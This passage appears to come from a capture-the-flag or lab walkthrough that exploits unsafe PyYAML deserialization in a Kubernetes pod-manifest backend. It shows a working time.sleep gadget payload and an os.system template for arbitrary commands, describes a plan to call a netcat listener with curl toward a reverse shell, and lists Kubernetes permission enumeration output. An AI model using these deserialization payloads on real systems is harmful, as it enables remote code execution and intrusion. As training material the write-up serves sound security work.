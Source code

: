```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
  namespace: default
spec:
  containers:
  - image: ubuntu:latest
    command: [!!python/object/apply:time.sleep [5]]
    name: test
    ports:
    - name: http
      containerPort: 80
    imagePullPolicy: IfNotPresent
```

Excellent. We've managed to make the backend sleep for 5 seconds and confirm that it is using `pyyaml`. At this point we can try a couple of techniques such as obtaining sensitive data and if possible obtain a reverse shell. Fortunately our `publc-terminal` has netcat (`nc`) which is a network utility for reading from and writing to network connections using TCP or UDP. we can edit our payload to attempt to make a call to our netcat listener. We could go directly to a reverse shell but we may encounter issues such as encoding.

In Python we can invoke a system call with the following:

```yaml
!!python/object/new:os.system [<INSERT-SYSTEM-CALL>]
```

We can weaponise our payload to use `curl` which is common library in most Linux distributions, to make a http call to our netcat listener. But first we need to know what our IP address is? Using `env` command within our `public-terminal` reveals we are running in Kubernetes. Let's see if we have access to the Kubernetes API.

```bash
elit3hex0r@public-terminal:/$ kubectl auth can-i --list
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
pods                                            []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
```